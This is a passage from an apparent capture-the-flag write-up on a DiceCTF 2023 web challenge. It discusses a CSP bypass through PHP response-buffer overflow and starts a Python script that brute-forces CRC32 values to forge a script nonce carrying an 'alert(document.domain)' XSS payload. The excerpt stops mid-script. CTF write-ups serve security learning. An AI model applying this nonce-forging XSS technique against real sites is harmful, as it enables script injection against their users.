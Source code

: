 Maybe we could redirect the admin bot to here, and trigger an XSS payload??

But no dice.

**If you look at the source code:**
```php
strlen($_GET["name"]) < 128
```

It checks the string length is less than 128 characters or not. Why it's doing that?

According to [HackTricks](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass#php-response-buffer-overload), if the response is overflowed (default 4096 bytes), it'll show a warning:

![](https://github.com/siunam321/CTF-Writeups/blob/main/DiceCTF-2023/images/Pasted%20image%2020230204152642.png)

So, maybe the checks is preventing that?

Also, I realized that there is a thing called "Hash collision". For example, MD5 hash collision attack, where 2 MD5 hashes are the same, thus collided.

Since **CRC32B algorithm only outputs a 32-bit unsigned value**, we can very easily to brute force it.

**Let's write a simple Python script to brute force it!**
```py
#!/usr/bin/env python3

from zlib import crc32
from itertools import combinations_with_replacement

characters = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!\"#$%&'()*+,-./:;<=>?@[\\]^_`{|}"
counter = 1

# Hash and loop through aa, ab, ac, ...
while True:
    for character in combinations_with_replacement(characters, counter):
        crc32BeforeHashInput = "".join(character).encode('utf-8')
        crc32BeforeHashed = hex(crc32(crc32BeforeHashInput))[2:]

        crc32HashNonce = f"<script nonce='{crc32BeforeHashed}'>alert(document.domain)</script>".encode('utf-8')
```